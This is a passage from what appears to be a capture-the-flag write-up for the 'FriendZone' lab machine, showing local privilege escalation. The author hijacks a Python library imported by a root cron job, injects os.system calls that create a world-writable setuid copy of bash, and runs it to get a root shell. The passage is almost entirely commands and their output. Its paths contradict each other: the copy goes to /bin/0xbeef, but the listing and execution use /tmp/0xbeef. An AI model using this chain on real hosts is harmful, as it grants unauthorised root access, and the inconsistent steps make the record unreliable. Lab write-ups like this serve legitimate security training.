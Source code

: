 Write into `/usr/lib/python2.7/os.py` and wait for cron to run


```
os.system('touch /tmp/test')
```

```
0 -rw-r--r-- 1 root root    0 Sep  7 11:48 test
```

It worked. Now copy bash and set setuid bit to run as root


```
os.system('cp /bin/bash /bin/0xbeef')
os.system('chmod 4777 /bin/0xbeef')
```

```
friend@FriendZone:~$ ls -la /tmp
total 1132
drwxrwxrwt 11 root root    4096 Sep  7 11:52 .
drwxr-xr-x 22 root root    4096 Sep 13  2022 ..
-rwsrwxrwx  1 root root 1113504 Sep  7 11:52 0xbeef
```


```
/tmp/0xbeef -p
```

```
friend@FriendZone:~$ /tmp/0xbeef -p
0xbeef-4.4# whoami
root
```